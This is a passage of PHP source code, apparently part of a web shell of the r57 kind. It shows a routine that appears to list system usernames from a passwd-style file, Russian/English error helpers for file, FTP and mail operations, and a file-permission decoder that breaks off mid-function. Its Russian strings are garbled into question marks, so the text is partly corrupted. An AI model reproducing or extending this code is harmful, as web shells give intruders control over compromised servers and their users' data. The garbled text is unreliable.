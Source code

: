   if(!$rows) return 0;
  foreach ($rows as $string)
   {
           $user = @explode(":",$string);
           if(substr($string,0,1)!='#') array_push($users,$user[0]);
   }
  return $users;
}
function we($i)
{
if($GLOBALS['language']=="ru"){ $text = '??????! ?? ???? ???????? ? ???? '; }
else { $text = "[-] ERROR! Can't write in file "; }
echo "&lt;table width=100% cellpadding=0 cellspacing=0&gt;&lt;tr&gt;&lt;td bgcolor=#cccccc&gt;&lt;font color=red face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;".$text.$i."&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
return null;
}
function re($i)
{
if($GLOBALS['language']=="ru"){ $text = '??????! ?? ???? ????????? ???? '; }
else { $text = "[-] ERROR! Can't read file "; }
echo "&lt;table width=100% cellpadding=0 cellspacing=0 bgcolor=#000000&gt;&lt;tr&gt;&lt;td bgcolor=#cccccc&gt;&lt;font color=red face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;".$text.$i."&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
return null;
}
function ce($i)
{
if($GLOBALS['language']=="ru"){ $text = "?? ??????? ??????? "; }
else { $text = "Can't create "; }
echo "&lt;table width=100% cellpadding=0 cellspacing=0 bgcolor=#000000&gt;&lt;tr&gt;&lt;td bgcolor=#cccccc&gt;&lt;font color=red face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;".$text.$i."&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
return null;
}
function fe($l,$n)
{
$text['ru']  = array('?? ??????? ???????????? ? ftp ???????','?????? ??????????? ?? ftp ???????','?? ??????? ???????? ?????????? ?? ftp ???????');
$text['eng'] = array('Connect to ftp server failed','Login to ftp server failed','Can\'t change dir on ftp server');
echo "&lt;table width=100% cellpadding=0 cellspacing=0 bgcolor=#000000&gt;&lt;tr&gt;&lt;td bgcolor=#cccccc&gt;&lt;font color=red face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;".$text[$l][$n]."&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
return null;
}
function mr($l,$n)
{
$text['ru']  = array('?? ??????? ????????? ??????','?????? ??????????');
$text['eng'] = array('Can\'t send mail','Mail sent');
echo "&lt;table width=100% cellpadding=0 cellspacing=0 bgcolor=#000000&gt;&lt;tr&gt;&lt;td bgcolor=#cccccc&gt;&lt;font color=red face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;".$text[$l][$n]."&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
return null;
}
function perms($mode)
{
if ($GLOBALS['windows']) return 0;
if( $mode & 0x1000 ) { $type='p'; }
else if( $mode & 0x2000 ) { $type='c'; }
else if( $mode & 0x4000 ) { $type='d'; }
else if( $mode & 0x6000 ) { $type='b'; }
else if( $mode & 0x8000 ) { $type='-'; }
else if( $mode & 0xA000 ) { $type='l'; }